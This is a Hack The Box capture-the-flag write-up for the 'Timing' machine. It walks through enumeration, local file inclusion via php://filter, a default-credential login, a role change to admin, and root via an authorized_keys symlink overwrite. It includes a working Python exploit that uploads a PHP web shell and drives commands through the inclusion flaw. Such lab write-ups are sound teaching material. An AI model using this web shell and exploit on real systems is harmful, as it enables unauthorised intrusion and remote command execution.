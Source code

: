 ```yaml
---
layout: single
title: Timing [boot2root] - Hack The Box
excerpt: "Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite."
date: 2022-1-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-timing/timing-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - boot2root
tags:  
  - Local File Inclusion(LFI)
  - Custom Exploitation
  - Enumeration Parameters
  - SSH-Keygen
  - Syblolic Links
---
```


<h1 align="center">
<img src="/assets/images/htb-writeup-timing/timing-banner.png">
</h1>

Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite.

## Network Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
```


## Directory Enumeartion

```
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/login.php            (Status: 200) [Size: 5609]                               
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
/footer.php           (Status: 200) [Size: 3937]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]  
```

## Fuzz parameters image.php

Fuzzing image.php and find an img parameter which from that we will read other .php files and more. <br><br>
<img src="/assets/images/htb-writeup-timing/fuzzing_parameters.png">


## Identify the user from /etc/passwd using php://filter

Identify the LFI vulnerability but with php://filter because the server not allows us to pass special characters like <b>/../../../</b> Read the /etc/passwd and identify the aaron user.

<img src="/assets/images/htb-writeup-timing/lfi_phpfilter.PNG">

<img src="/assets/images/htb-writeup-timing/aaron_user.PNG">

## Login with aaron for the both box values at login page

Login with aaron user (aaron:aaron)<br><br>
<img src="/assets/images/htb-writeup-timing/login_default_creds.PNG">


## Change user role to admin

When we read the profile_update.php we will see this piece of code which allows us to pass the role=1 parameter and change from user2 to admin. <br><br>
<img src="/assets/images/htb-writeup-timing/rolechange.PNG">

<img src="/assets/images/htb-writeup-timing/change_to_admin.PNG">

<img src="/assets/images/htb-writeup-timing/show_adminpanel.PNG">

## Exploit 

At the exploit part to get the RCE. I create this exploit in python combined with php code which i read it from upload.php with LFI from web server. The upload.php creates a hash and append it in the front of the filename($hash_image.jpg). For the exploit we must to upload and generate at the same to find out the name of the file .

```php
<?php
$upload_dir = "images/uploads/";
$file = "exploit.jpg";

$file_name = md5('$file_hash'. time()) . '_' . $file;
$target_file = $upload_dir . $file_name;
echo $file_name;
echo PHP_EOL;
?>
```

```python
#!/usr/bin/python3
import requests
import os
import time
import threading


#Current URL=http://timing.htb
def upload_post_req():
	burp0_url = "http://timing.htb:80/upload.php"
	burp0_cookies = {"PHPSESSID": "lo4d1l8c8df2b7lgr7vrutethl"} #Change this cookie to our admin cookie
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------358100878512268049331587005052", "Origin": "http://timing.htb", "Connection": "close", "Referer": "http://timing.htb/avatar_uploader.php"}
	burp0_data = "-----------------------------358100878512268049331587005052\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"exploit.jpg\"\r\nContent-Type: txt/php\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------358100878512268049331587005052--\r\n"
	r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
	
def fname_generator():
	print("Running...")
	for i in range(15):
		os.system("php -f fname_generator.php >> output.txt")
		if(i==6):
			threading.Thread(target=upload_post_req).start()
		time.sleep(1)


def response_c(filename):
	VECTOR="http://timing.htb/images/uploads/"
	r=requests.get(VECTOR+str(filename))
	return r.status_code

def injector(filename, cmd):
	VECTOR="http://timing.htb/image.php?img=images/uploads/"
	r=requests.get(VECTOR+filename+"&cmd="+cmd)
	print(r.text)

if __name__ == "__main__":	

	fname_generator()
	
	hash_names=[]
	f = open("output.txt", "r")
	for i in range(15):
		hash_names.append(f.readline().strip("\n"))
	f.close()
	
	for filename in hash_names:
		if str(response_c(filename))=="200":
			os.system("clear")
			print("Success!")
			while(1):
				cmd=input("> ")
				injector(filename, cmd)
				if cmd=="exit":
					break
	
	os.system("rm output.txt")
```

<img src="/assets/images/htb-writeup-timing/run_exploit.png">

<img src="/assets/images/htb-writeup-timing/run_exploit_success.png">


## Download zip backup from /opt folder

Enumerate and download the backup file from opt directory. <br>
<img src="/assets/images/htb-writeup-timing/download_and_unzip.PNG">

## Find git changes and discover aaron ssh password

Find the git changes and login with aaron user to ssh. <Br>
<img src="/assets/images/htb-writeup-timing/git_log_ssh_creds.PNG">

<img src="/assets/images/htb-writeup-timing/login_ssh.PNG">



## Root

At the root part we have perms to run the /usb/bin/netutils with allows us to download a file from http and ftp server. to find out the name of the file <br>
<img src="/assets/images/htb-writeup-timing/sudo_l.PNG">

Example of netutils <br>
<img src="/assets/images/htb-writeup-timing/run_netutils.PNG">

1. Create a symbolic link to /root/.ssh/authorized_keys <br>
2. Create a private and public key in attacking machine. <br>
3. Rename the public key <br>
4. Download the file from timing machine <br>
5. Login from attacking machine with private key to root user.
	<br>
	
	
<img src="/assets/images/htb-writeup-timing/priv_esc.PNG">
